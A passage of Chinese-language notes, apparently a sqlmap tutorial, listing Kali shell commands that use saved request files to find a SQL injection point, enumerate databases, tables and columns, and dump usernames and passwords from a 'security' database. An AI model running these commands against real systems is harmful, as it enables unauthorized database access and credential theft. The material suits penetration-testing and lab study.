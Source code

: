 **查看当前数据库下的数据表**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/test.txt -D security --tables
```

**获取字段**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/test.txt -D security -T users --columns
```

**获取字段内的信息**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/test.txt -D security -T users -C password,username --dump
```

---

### request请求注入

**寻找注入点**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/a1.txt --technique "U" -v 3
```

**获取所有的数据库**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/a1.txt --technique "U" -v 3 --dbs
```

**获取当前数据库**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/a1.txt --technique "U" -v 3 --current-db
```

**获取当前数据表**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/a1.txt --technique "U" -v 3 -D security --tables
```

**获取当前表内的字段**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/a1.txt --technique "U" -v 3 -D security -T users --columns
```

**获取表内的字段信息**
